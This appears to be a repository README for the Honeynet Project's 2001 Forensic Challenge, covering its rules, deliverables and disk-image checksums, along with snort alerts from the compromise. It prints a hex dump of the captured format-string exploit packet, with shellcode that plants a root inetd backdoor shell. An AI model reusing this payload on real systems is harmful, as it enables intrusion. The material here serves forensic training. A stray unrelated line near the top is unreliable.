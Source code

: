 ===================================
Honeynet Project Forensic Challenge
===================================

This repository mirrors and repackages the original data and analyses
from the Honeynet Project `Forensic Challenge`_.  The original web site
can be found at 
Python CLI for managing secrets (passwords, API keys, etc)

Directories and files
~~~~~~~~~~~~~~~~~~~~~

You can find BZ2 compressed partition images in the ``partition-images/``
directory.

Results from the reference analysis by David Dittrich for the Honeynet
Project and all 13 contestants are found in the ``results/`` directory.

The file ``timestamp.txt`` is the original timestamped file with
MD5 hashes of the original images, for "chain of custody" style
integrity validation.  As the new files are now compressed with
a different algorithm, the old ``.gz`` MD5 hashes are useless,
but the uncompressed files should still hash the same.

The Forensic Challenge
----------------------

The Honeynet Project's **Forensic Challenge** was launched on January 15, 2001.
This page links to all the information we've assembled about the Challenge.
This index will help you quickly get to what you want.

-  Introduction_
-  `The Challenge`_
-  `The Rules`_
-  `Partition images <partition-images/>`__
-  `Frequently Asked Questions about the Challenge <faq/>`__
-  `Results of the Challenge <results/>`__

.. _intro:

Introduction
~~~~~~~~~~~~

Every day, incident handlers across the globe are faced with compromised
systems, running some set of unknown programs, providing some kind of
unintended service to an intruder who has taken control of someone else's --
YOUR, or your client's, or customer's -- computers. To most, the response is a
matter of "get it back online ASAP and be done with it." This usually leads to
an inadequate and ineffective response, not even knowing what hit you, with a
high probability of repeated compromise.

On the law enforcement side, they are hampered by a flood of incidents and a
lack of good data. A victim trying to keep a system running or doing a
"quickie" job of cleanup usually means incidents are underreported and
inadequate handling of the evidence leads to no evidence, or tainted evidence.
There has to be a better way to meet the needs of incident handlers and system
administrators, as well as law enforcement, if Internet crime is going to be
managed and not run amok. One possible answer is effective forensic analysis
skills -- widespread knowledge of tools and techniques -- to preserve data,
analyze it, and produce meaningful reports and damage estimates to your
organization's management, to other incident response teams and system
administrators, and to law enforcement.

Enter the Honeynet Project. One of the primary goals of the Honeynet Project is
to find order in chaos by letting the attackers do their thing, and allowing
the defenders to learn from the experience and improve. The latest challenge,
inspired by the Honeynet Project's founder Lance Spitzner, is the Forensic
Challenge. Only this time, we're opening it up to anyone who wants to join in.

The Challenge
~~~~~~~~~~~~~

The Forensic Challenge is an effort to allow incident handlers around the world
to all look at the same data -- an image reproduction of the same compromised
system -- and to see who can dig the most out of that system and communicate
what they've found in a concise manner. This is a nonscientific study of tools,
techniques, and procedures applied to postcompromise incident handling. The
challenge is to have fun, to solve a common real world problem, and for
everyone to learn from the process. If what I've said already isn't enough to
get you interested, Foundstone is generously offering copies of their extremely
popular "Hacking Exposed" (Second Edition) book for the 20 best submissions.

To get you started, here are the basic facts about the compromise:

-  The system was running a default Red Hat Linux 6.2 Server
   installation.
-  The system's time zone was set to GMT-0600 (CST).
-  The following was noted and logged by the Project's IDS of
   choice, `snort <http://www.snort.org>`__.

::

   Nov 7 23:11:06 lisa snort[1260]:
   RPC Info Query: 216.216.74.2:963 -> 172.16.1.107:111

   Nov 7 23:11:31 lisa snort[1260]:
   spp_portscan: portscan status from 216.216.74.2: 2 connections across 1 hosts: TCP(2), UDP(0)

   Nov 7 23:11:31 lisa snort[1260]:
   IDS08 - TELNET - daemon-active: 172.16.1.101:23 -> 216.216.74.2:1209

   Nov 7 23:11:34 lisa snort[1260]:
   IDS08 - TELNET - daemon-active: 172.16.1.101:23 -> 216.216.74.2:1210

   Nov 7 23:11:47 lisa snort[1260]:
   spp_portscan: portscan status from 216.216.74.2: 2 connections across 2 hosts: TCP(2), UDP(0)

   Nov 7 23:11:51 lisa snort[1260]:
   IDS15 - RPC - portmap-request-status: 216.216.74.2:709 -> 172.16.1.107:111

   Nov 7 23:11:51 lisa snort[1260]:
   IDS362 - MISC - Shellcode X86 NOPS-UDP: 216.216.74.2:710 -> 172.16.1.107:871

::

   11/07-23:11:50.870124 216.216.74.2:710 -> 172.16.1.107:871
   UDP TTL:42 TOS:0x0 ID:16143
   Len: 456
   3E D1 BA B6 00 00 00 00 00 00 00 02 00 01 86 B8  >...............
   00 00 00 01 00 00 00 02 00 00 00 00 00 00 00 00  ................
   00 00 00 00 00 00 00 00 00 00 01 67 04 F7 FF BF  ...........g....
   04 F7 FF BF 05 F7 FF BF 05 F7 FF BF 06 F7 FF BF  ................
   06 F7 FF BF 07 F7 FF BF 07 F7 FF BF 25 30 38 78  ............%08x
   20 25 30 38 78 20 25 30 38 78 20 25 30 38 78 20   %08x %08x %08x
   25 30 38 78 20 25 30 38 78 20 25 30 38 78 20 25  %08x %08x %08x %
   30 38 78 20 25 30 38 78 20 25 30 38 78 20 25 30  08x %08x %08x %0
   38 78 20 25 30 38 78 20 25 30 38 78 20 25 30 38  8x %08x %08x %08
   78 20 25 30 32 34 32 78 25 6E 25 30 35 35 78 25  x %0242x%n%055x%
   6E 25 30 31 32 78 25 6E 25 30 31 39 32 78 25 6E  n%012x%n%0192x%n
   90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90  ................
   90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90  ................
   90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90  ................
   90 90 EB 4B 5E 89 76 AC 83 EE 20 8D 5E 28 83 C6  ...K^.v... .^(..
   20 89 5E B0 83 EE 20 8D 5E 2E 83 C6 20 83 C3 20   .^... .^...  ..
   83 EB 23 89 5E B4 31 C0 83 EE 20 88 46 27 88 46  ..#.^.1... .F'.F
   2A 83 C6 20 88 46 AB 89 46 B8 B0 2B 2C 20 89 F3  *.. .F..F..+, ..
   8D 4E AC 8D 56 B8 CD 80 31 DB 89 D8 40 CD 80 E8  .N..V...1...@...
   B0 FF FF FF 2F 62 69 6E 2F 73 68 20 2D 63 20 65  ..../bin/sh -c e
   63 68 6F 20 34 35 34 35 20 73 74 72 65 61 6D 20  cho 4545 stream
   74 63 70 20 6E 6F 77 61 69 74 20 72 6F 6F 74 20  tcp nowait root
   2F 62 69 6E 2F 73 68 20 73 68 20 2D 69 20 3E 3E  /bin/sh sh -i >>
   20 2F 65 74 63 2F 69 6E 65 74 64 2E 63 6F 6E 66   /etc/inetd.conf
   3B 6B 69 6C 6C 61 6C 6C 20 2D 48 55 50 20 69 6E  ;killall -HUP in
   65 74 64 00 00 00 00 09 6C 6F 63 61 6C 68 6F 73  etd.....localhos
   74 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  t...............
   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................

A bit-image copy of the active partitions was obtained, as detailed here:

::

   /dev/hda8       /
   /dev/hda1       /boot
   /dev/hda6       /home
   /dev/hda5       /usr
   /dev/hda7       /var
   /dev/hda9       swap

MD5 Checksums (both uncompressed and GNU gzip compressed):

::

   a1dd64dea2ed889e61f19bab154673ab  honeypot.hda1.dd
   c1e1b0dc502173ff5609244e3ce8646b  honeypot.hda5.dd
   4a20a173a82eb76546a7806ebf8a78a6  honeypot.hda6.dd
   1b672df23d3af577975809ad4f08c49d  honeypot.hda7.dd
   8f244a87b8d38d06603396810a91c43b  honeypot.hda8.dd
   b763a14d2c724e23ebb5354a27624f5f  honeypot.hda9.dd

   f8e5cdb6f1109035807af1e141edd76d  honeypot.hda1.dd.gz
   6ef29886be0d9140ff325fe463fce301  honeypot.hda5.dd.gz
   8eb98a676dbffad563896a9b1e99a95f  honeypot.hda6.dd.gz
   be215f3e8c2602695229d4c7810b9798  honeypot.hda7.dd.gz
   b4ff10d5fd1b889a6237fa9c2979ce77  honeypot.hda8.dd.gz
   9eed26448c881b53325a597eed8685ea  honeypot.hda9.dd.gz

Please be aware that these are new images. This is **not** a system that the
Honeynet Project has previously written about or discussed publically. (I.e.,
you won't get any hints from previous Honeynet papers.) The images were edited
to anonymize the system. Only the hostname was modified. Everyone is using the
same data, so any anomalies caused by this editing will be identical.

The image files can be mounted on Linux systems using the loopback interface
like this:

::

    # mkdir /t
    # mount -o ro,loop,nodev,noexec honeypot.hda8.dd /t
    # mount -o ro,loop,nodev,noexec honeypot.hda1.dd /t/boot
    [ etc... ]

Its now your job -- should you choose to accept it! -- to figure out the Who,
What, Where, When, How, and maybe even the Why of this compromise. We don't
expect that everyone undertaking the challenge can or will address all of the
following items, but the list below of questions and deliverables is provided
as a guideline for what to produce and what to focus on:

#. Identify the intrusion method, its date, and time. (Assume the clock on
   the IDS was synchronized with an NTP reference time source.)

#. Identify as much as possible about the intruder(s).

#. List all the files that were added/modified by the intruder.  Provide
   an analysis of these programs (including decompilation or disassembly
   where necessary to determine their function and role in the incident.)

#. Was there a sniffer or password harvesting program installed?
   If so, where and what files are associated with it?

#. Was there a "rootkit" or other post-concealment trojan horse programs
   installed on the system? If so, what operating system programs were
   replaced and how could you get around them? Hint: If you don't know
   what a "rootkit" is, read this:
   `http://staff.washington.edu/dittrich/misc/faqs/rootkits.faq
   <https://staff.washington.edu/dittrich/misc/faqs/rootkits.faq>`__

#. What is publicly known about the source of any programs found on the
   system? (e.g., their authors, where source code can be found, what
   exploits or advisories exist about them, etc.)

#. Build a time line of events and provide a detailed analysis of activity
   on the system, noting sources of supporting or confirming evidence
   (elsewhere on the system or compared with a known "clean" system of
   similar configuration.)

#. Provide a report suitable for management or news media (general aspects
   of the intrusion without specific identifying data).

#. Provide an advisory for use within the home organization (a fictitious
   university, "honeyp.edu", in this case, where I hold an honorary Doctorate,
   by the way) to explain the key aspects of the vulnerability exploited,
   how to detect and defend against this vulnerability, and how to
   determine whether or not other systems were similarly compromised.

#. Produce a cost-estimate for this incident using the following guidelines
   and method: 

   `http://staff.washington.edu/dittrich/misc/faqs/incidentcosts.faq
   <https://staff.washington.edu/dittrich/misc/faqs/incidentcosts.faq>`__

   To simplify and to normalize the results, assume that your annual salary is
   $70,000 and that there are no user-related costs. (If you work as a team,
   break out hours by person, but all members should use the same annual
   salary. Please also include a brief description of each investigator's
   number of years of experience in the fields of system administration,
   programming, and security, just to help us compare the number of hours spent
   with other entrants).

To summarize (and standardize) the deliverables, please produce the following:

::

      File                   Contents
      -----------------------------------------------------------------------
      index.txt              Index of files/directories submitted (including
                             any not listed below.)

      timestamp.txt          Timestamp of MD5 checksums of all files listed
                             and submitted (dating when produced -- see
                             deadline information below.)

      costs.txt              Incident cost-estimate.

      evidence.txt           Time line and detailed (technical) analysis. (Use
                             an Appendix, and/or mark answers to questions
                             above with "[Q1]", etc.)

      summary.txt            Management and media (non-technical) summary.

      advisory.txt           Advisory for consumption by other system
                             administrators and incident handlers within your
                             organization.

      files.tar              Any other files produced during analysis and/or
                             excerpts (e.g., strings output or dissassembly
                             listings) from files on the compromised file
                             system, which are referenced in the previous files.

The Rules
~~~~~~~~~

-  You are free to use any tools or techniques that you choose, provided that
   the judges are able to readily interpret your results and duplicate or verify
   their accuracy using publicly available means (i.e., don't expect us all to
   have a copy of your favorite "Law Enforcement Only" or multi-hundred dollar
   commercial Windows-only tool). A good publicly available free
   forensic toolkit is `TASK <https://www.sleuthkit.org>`__ (made up of
   `Autopsy <https://www.sleuthkit.org/autopsy/download.php>`__ and
   `The Sleuth Kit <https://www.sleuthkit.org/sleuthkit/download.php>`__.
   These tools build on Dan Farmer and Wietse Venema's original `The
   Coroner's Toolkit (TCT)
   <http://www.porcupine.org/forensics/tct.html>`__. If you want
   examples of the use of TCT, or other tools/techniques, see the Forensics
   section of the following web page:

   `https://davedittrich.github.io/ <https://davedittrich.github.io/>`__

   No matter what tools/methods you choose, please make sure you explain them
   in your analysis and cite references to resources (e.g., RFCs, CERT or
   SANS "how to" documents) to help others learn by example. Don't forget:
   this is a Honeynet Project brainchild, so learning is what it's all about.
   And fun. It's all about learning and fun. Oh yeah, and security. Learning,
   fun, AND security. ;)

-  You may work as a team, but if your entry is selected as a Top 20, you'll
   have to fight over one copy of the book.

-  Deliver the results of the analysis in such a way that the judges can quickly
   and easily consume the information, and such that its authenticity, time of
   production, and integrity can be verified independently. (e.g., ISO 9660
   CD-ROM or ``.tar`` archive, with digital time stamps, and PGP signatures
   and/or MD5 checksums.) Please DO NOT SEND COPIES OF COMPLETE FILES FROM THE
   FILE SYSTEM. We already have a copy of the file system and its contents.
   Just note the path (e.g., "[See file /bin/foo]").

-  All submissions **MUST** be time stamped prior to 00:00 GMT on Monday,
   February 19, 2001 [**not** February 15 as the announcement email said], and
   delivery to the judges initiated later that same day. (This is to accommodate
   submissions on IS0 9660 format CD-ROM, which should be postmarked by this
   time. The digital time stamps and postmarks will be used to determine the
   20 "Hacking Exposed" book winners.) One free digital time stamping service
   you can use is `Stamper <http://www.itconsult.co.uk/stamper.htm>`__ .

-  The person who hacked the box is NOT eligible, nor are members of the
   Honeynet Project. Members of the companies employing Honeynet Project members
   are eligible (and encouraged!) to enter, but their entries (even if Top 20)
   will not receive copies of "Hacking Exposed." The books go to other entrants.

-  Entries must be written in English (UK and Aussie English accepted, but go
   light on the regional slang, please! I only have a copy of "*Best of Aussie
   Slang*," and the other judges don't live in Seattle.)

-  Only one entry per household, please. Must be sentient to enter. Sorry, no
   Ginsu Knives come with this offer!

Submissions will be judged by a panel of experts and winners selected and
announced on Monday, March 19, 2001. All decisions of the judges are final (no
recounts or legal challenges by teams of grossly overpaid lawyers will be
tolerated!).

After the winners are announced, all entries will be posted for the security
community to review. We hope that the community can better learn from and
improve from all the different techniques that different people and
organizations use.

Also, we wouldn't be the Honeynet Project if we didn't capture all of the
blackhat's keystrokes as he exploited, accessed, and modified the honeypot! We
will release the Honeypot Project's analysis of the hacked system, as well as
the blackhat's keystrokes, along with the results of the Challenge on March 19.

Good luck, and have fun!

Dave Dittrich

.. |spacer| image:: /images/spacer.gif
   :width: 200px
   :height: 100px
.. |Home| image:: /images/nav_00_home.gif
   :name: home
   :width: 129px
   :height: 28px
   :target: /index.html
.. |About the Project| image:: /images/nav_01_about.gif
   :name: about
   :width: 129px
   :height: 28px
   :target: /misc/project.html
.. |Challenges| image:: /images/nav_04_challenges.gif
   :name: challenges
   :width: 129px
   :height: 30px
   :target: /misc/chall.html
.. |Presentations| image:: /images/nav_05_presentations.gif
   :name: pres
   :width: 129px
   :height: 31px
   :target: /speaking/index.html
.. |Whitepapers| image:: /images/nav_06_whitepapers.gif
   :name: white
   :width: 129px
   :height: 30px
   :target: /papers/index.html
.. |Tools| image:: /images/nav_07_tools.gif
   :name: tools
   :width: 129px
   :height: 30px
   :target: /tools/index.html
.. |Our Book| image:: /images/nav_08_our_book.gif
   :name: book
   :width: 129px
   :height: 29px
   :target: /book/index.html
.. |Funding/Donations| image:: /images/nav_09_funding.gif
   :name: fund
   :width: 129px
   :height: 31px
   :target: /funds/index.html
.. |Status Reports| image:: /images/nav_status.gif
   :name: status
   :width: 129px
   :height: 31px
   :target: /status/index.html
.. |Mirrors| image:: /images/nav_10_mirrors.gif
   :name: mirrors
   :width: 129px
   :height: 28px
   :target: /misc/mirror.html
.. |spacer| image:: /images/spacer.gif
   :width: 19px
   :height: 5px
.. |spacer| image:: /images/spacer.gif
   :width: 5px
   :height: 50px
.. |The Forensic Challenge| image:: /images/page_titles_for_challenge.jpg
   :width: 350px
   :height: 36px
.. |spacer| image:: /images/spacer.gif
   :width: 1px
   :height: 3px
.. |Back to Top| image:: /images/back.gif
   :width: 82px
   :height: 20px
   :target: #top
Credits
---------

The original Honeynet Project `Forensic Challenge`_ web site
is http://old.honeynet.org/challenge/

.. _Forensic Challenge: http://old.honeynet.org/challenge/
